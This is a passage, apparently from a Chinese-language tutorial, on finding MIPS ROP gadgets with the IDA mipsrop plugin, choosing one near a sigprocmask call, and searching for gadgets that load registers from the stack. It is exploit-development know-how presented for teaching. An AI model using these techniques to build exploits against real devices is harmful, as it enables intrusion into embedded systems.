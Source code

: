 ```
|  0x00088E80  |  li $a0,1                                            |  jr    0x1C+var_s0($sp)                |
|  0x00091134  |  li $a0,1                                            |  jr    0x70+var_s24($sp)               |
|  0x00091BB0  |  li $a0,1                                            |  jr    0x70+var_s24($sp)               |
|  0x000D5460  |  li $a0,1                                            |  jr    0x1C+var_s10($sp)               |
|  0x000F2A80  |  li $a0,1                                            |  jr    0x1C+var_s0($sp)                |
|  0x001251C0  |  li $a0,1                                            |  jr    0x18+var_s14($sp)               |
----------------------------------------------------------------------------------------------------------------
Found 14 matching gadgets
```

例如我们这里选择了  0x00E2660 处的 gadget

```
.text:000E2660                 move    $t9, $s2
.text:000E2664                 jalr    $t9 ; sigprocmask
.text:000E2668                 li      $a0, 1
```

我们发现，这个 gadget 最后会跳到 s2 寄存器里的值的位置，所以，我下一步需要找到能控制 s2 的寄存器

通常而言，我们这里会使用 mipsrop 插件的 `mipsrop.tail()` 方法来寻找，从栈上设置寄存器的 gadget 

```
Python>mipsrop.tail()
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0001E598  |  move $t9,$s2                                        |  jr    $s2                             |
|  0x000F7758  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F776C  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F7868  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F787C  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F86D4  |  move $t9,$s4                                        |  jr    $s4                             |
|  0x000F8794  |  move $t9,$s5                                        |  jr    $s5                             |
|  0x00127E6C  |  move $t9,$s0                                        |  jr    $s0                             |
|  0x0012A80C  |  move $t9,$s0                                        |  jr    $s0                             |
|  0x0012A880  |  move $t9,$s0                                        |  jr    $s0                             |
|  0x0012F4A8  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x0013032C  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00130344  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00132C58  |  move $t9,$a1                                        |  jr    $a1                             |
```